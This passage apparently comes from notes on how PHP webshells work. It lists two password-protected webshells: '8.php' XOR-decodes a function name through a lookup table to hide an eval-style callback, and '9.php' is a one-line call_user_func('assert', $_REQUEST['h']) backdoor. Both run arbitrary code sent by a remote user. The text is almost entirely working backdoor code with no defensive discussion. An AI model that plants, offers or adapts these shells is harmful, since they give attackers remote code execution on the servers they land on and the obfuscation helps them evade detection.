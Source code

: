 #### 8.php

```php
# PHP5>=5.4.0,PHP7
# password:h
```

```php
<?php
	$password="h";
	$key=substr(__FILE__,-5,-4);
	${"LandGrey"}=$key."Land!";
    $trick=array(
        "0"=>"51","1"=>"50","2"=>"53","3"=>"52","4"=>"55","5"=>"54","6"=>"57","7"=>"56","8"=>"59",
        "9"=>"58","a"=>"00","b"=>"03","c"=>"02","d"=>"05","e"=>"04","f"=>"07","g"=>"06","h"=>"09",
        "i"=>"08","j"=>"0b","k"=>"0a","l"=>"0d","m"=>"0c","n"=>"0f","o"=>"0e","p"=>"11","q"=>"10",
        "r"=>"13","s"=>"12","t"=>"15","u"=>"14","v"=>"17","w"=>"16","x"=>"19","y"=>"18","z"=>"1b",
        "A"=>"20","B"=>"23","C"=>"22","D"=>"25","E"=>"24","F"=>"27","G"=>"26","H"=>"29","I"=>"28",
        "J"=>"2b","K"=>"2a","L"=>"2d","M"=>"2c","N"=>"2f","O"=>"2e","P"=>"31","Q"=>"30","R"=>"33",
        "S"=>"32","T"=>"35","U"=>"34","V"=>"37","W"=>"36","X"=>"39","Y"=>"38","Z"=>"3b",
    );
	$f=pack("H*",$trick[$key]."3f120b1655")^$key."Land!";
	array_intersect_uassoc(array($_REQUEST[$password]=>""),array(1),$f);
?>
```

#### 9.php

```php
# password: h
```

```php
<?php
	call_user_func('assert', $_REQUEST['h']);
?>
```

![](webshell原理.assets/9.png)
